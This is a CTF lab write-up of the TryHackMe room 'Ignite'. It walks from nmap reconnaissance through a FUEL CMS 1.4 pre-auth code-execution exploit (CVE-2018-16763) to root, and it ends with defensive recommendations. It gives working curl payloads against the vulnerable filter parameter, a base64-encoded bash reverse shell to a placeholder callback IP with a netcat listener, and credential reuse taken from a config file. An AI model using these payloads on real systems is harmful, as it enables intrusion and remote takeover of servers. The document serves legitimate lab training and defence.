










# TryHackMe Ignite - Professional CTF Write-up

> **Mode:** Authorized CTF / Lab environment only  
> **Target:** TryHackMe private machine `Ignite`  
> **Primary vulnerability:** FUEL CMS 1.4.x Pre-Auth Remote Code Execution  
> **CVE:** CVE-2018-16763  
> **Author:** Reylucha Biel  
> **Note:** This write-up is for education, defensive learning, and authorized lab practice only. Do not run these techniques against systems you do not own or do not have explicit permission to test.

---

## 1. Executive Summary

Ignite is a beginner-friendly web exploitation room focused on identifying a vulnerable CMS, validating remote code execution, obtaining a reverse shell as the web server user, and escalating privileges by recovering credentials from application configuration files.

The attack path was:

```text
Recon -> Web fingerprinting -> FUEL CMS 1.4 discovery -> CVE-2018-16763 RCE -> Reverse shell as www-data -> Local enumeration -> Database config credential reuse -> root
```

The critical lesson from this room is to avoid chasing every noisy CVE from automated scans. The real path was visible from the web application banner: **FUEL CMS Version 1.4**.

---

## 2. Scope and Ethics

This assessment was performed only inside the TryHackMe lab environment. The target IP was assigned by TryHackMe, and the objective was to retrieve the user and root flags as part of a legal CTF exercise.

Rules followed:

- No third-party systems were targeted.
- No persistence was installed.
- No destructive commands were executed.
- Flags are redacted from screenshots in this public-style write-up.
- Commands are provided for reproducibility inside the authorized lab only.

---

## 3. Initial Room Context

The room objective is simple: root the box and submit `User.txt` and `Root.txt`.





---

## 4. Reconnaissance

### 4.1 Nmap Scan

Command used:

```bash
sudo nmap -sC -sV --script vuln 10.49.132.213
```

Important findings:

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

http-enum:
  /robots.txt
  /0/
  /home/
  /index/
```

Interpretation:

- Only port `80/tcp` was open.
- The machine exposed a web application over HTTP.
- The Apache CVE output was noisy and should not be treated as the first exploit path.
- Web application fingerprinting became the next priority.

---

## 5. Web Application Fingerprinting

Opening the target in the browser showed a FUEL CMS landing page.



The page clearly identified:

```text
Welcome to Fuel CMS
Version 1.4
```

The page source also revealed the admin path and default credentials:

```text
Admin path: /fuel
Username: admin
Password: admin
```

I also confirmed that the admin dashboard could be reached through the web interface.



At this point the target technology was clear: **FUEL CMS 1.4**.

---

## 6. Vulnerability Research

Searching for `fuel cms 1.4 cve` led to **CVE-2018-16763**.



Vulnerability summary:

```text
FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter.
This can lead to Pre-Auth Remote Code Execution.
```

The vulnerable endpoint used in this room:

```text
/fuel/pages/select/?filter=
```

The exploit idea is to inject PHP logic that eventually calls an operating system command through `system()`.

---

## 7. Remote Code Execution Verification

Before attempting a shell, I verified command execution with a harmless command.

Set the target variable:

```bash
export TARGET="http://10.49.132.213"
```

RCE verification command:

```bash
curl -sG "$TARGET/fuel/pages/select/" \
  --data-urlencode "filter='+pi(print(\$a='system'))+\$a('id')+'"
```

Successful output:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



The PHP warning shown in the response did not mean the exploit failed. The important part was that the `id` command executed successfully and returned the `www-data` identity.

Operational note:

```text
If $TARGET is empty in the current terminal session, the curl command will not hit the intended target.
Always confirm with: echo "$TARGET"
```

---

## 8. Reverse Shell

### 8.1 Find the VPN callback IP

The reverse shell must connect back to the attacker's TryHackMe VPN IP.

```bash
ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'
```

A more reliable route-based check:

```bash
ip route get 10.49.132.213
```

Use the IP shown after `src`.

### 8.2 Start Listener

In terminal 1:

```bash
nc -lvnp 4444
```

### 8.3 Trigger Reverse Shell

In terminal 2:

```bash
export TARGET="http://10.49.132.213"

REV=$(printf 'bash -i >& /dev/tcp/YOUR_TUN0_IP/4444 0>&1' | base64 -w0)

curl -sG "$TARGET/fuel/pages/select/" \
  --data-urlencode "filter='+pi(print(\$a='system'))+\$a('echo $REV | base64 -d | bash')+'"
```

Successful shell:

```text
Connection received on 10.49.132.213
bash: cannot set terminal process group ...
bash: no job control in this shell
www-data@ubuntu:/var/www/html$
```



The warning about terminal job control is normal for a raw reverse shell.

---

## 9. Initial Post-Exploitation Enumeration

Confirm the current user and context:

```bash
whoami
hostname
id
pwd
```

Expected identity:

```text
www-data
```

Useful initial checks:

```bash
ls -la
cat robots.txt
cat index.php
```

The web root confirmed the FUEL CMS installation structure:

```text
/var/www/html
assets/
fuel/
index.php
robots.txt
```

---

## 10. User Flag

Search for user-accessible flag files:

```bash
find /home -maxdepth 4 -type f \( -name "user.txt" -o -name "flag.txt" \) 2>/dev/null
```

The user flag was located under the `www-data` home directory:

```bash
cd /home/www-data
ls
cat flag.txt
```



Flag value is intentionally redacted in this write-up.

---

## 11. Privilege Escalation Enumeration

Because this was a CMS-backed web application, application configuration files were the most interesting local target.

Move to the FUEL CMS config directory:

```bash
cd /var/www/html/fuel/application/config
ls
```

Search quickly for database-related credentials:

```bash
grep -n "hostname\|username\|password\|database" database.php
```

Interesting result:

```php
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
```



Why this matters:

- Web applications often store database credentials in readable config files.
- In CTF environments, credentials are commonly reused across services or local users.
- The database password became a candidate password for `root`.

---

## 12. Root Access

Attempt to switch user to root:

```bash
su root
```

Password used:

```text
mememe
```

Confirm root access:

```bash
whoami
id
```

Expected result:

```text
root
```

Read the root flag:

```bash
cd /root
ls
cat root.txt
```



Flag value is intentionally redacted in this write-up.

---

## 13. Attack Chain Recap

```text
1. Scan target with Nmap.
2. Identify only HTTP service on port 80.
3. Inspect website manually.
4. Discover FUEL CMS Version 1.4.
5. Research known vulnerabilities.
6. Identify CVE-2018-16763.
7. Verify RCE with id command.
8. Generate base64 reverse shell payload.
9. Catch shell as www-data.
10. Enumerate /home and retrieve user flag.
11. Inspect CMS config files.
12. Find database password in database.php.
13. Reuse password with su root.
14. Retrieve root flag.
```

---

## 14. Common Pitfalls and Fixes

### Problem: Reverse shell does not connect back

Checklist:

```bash
echo "$TARGET"
ip route get 10.49.132.213
nc -lvnp 4444
```

Common causes:

- `$TARGET` was not exported in the same terminal session.
- Wrong VPN IP was used.
- Listener was not running before triggering the payload.
- Port mismatch between payload and listener.

### Problem: PHP warning appears during RCE test

If the output still contains this:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

then command execution worked. The PHP warning is not the primary signal; command output is.

### Problem: `sudo su` fails

This is expected because `www-data` usually does not have sudo privileges.

Use:

```bash
su root
```

Then enter the recovered password from `database.php`.

---

## 15. Defensive Recommendations

If this were a real environment, the following fixes would be required:

1. **Upgrade FUEL CMS** to a patched version.
2. **Remove default credentials** such as `admin:admin`.
3. **Do not reuse database passwords** for system accounts.
4. **Restrict config file permissions** so the web server cannot read unnecessary secrets.
5. **Disable verbose PHP errors** in production.
6. **Harden Apache and PHP** with least privilege and secure runtime settings.
7. **Monitor suspicious requests** to endpoints such as `/fuel/pages/select/`.
8. **Rotate exposed credentials** after compromise.

---

## 16. Key Lessons Learned

- Manual web fingerprinting is often more valuable than noisy vulnerability scanner output.
- Version banners can be critical in CTF-style exploitation.
- Always verify RCE with a harmless command before launching a shell.
- Environment variables such as `$TARGET` are terminal-session specific.
- Post-exploitation enumeration should prioritize application config files.
- Credential reuse is a common privilege escalation path in labs and real incidents.

---

## 17. Final Notes

This room demonstrates a clean web exploitation path from unauthenticated RCE to root. The most important professional habit is not the exploit itself, but the methodology:

```text
Observe carefully, validate assumptions, exploit minimally, enumerate systematically, and document clearly.
```
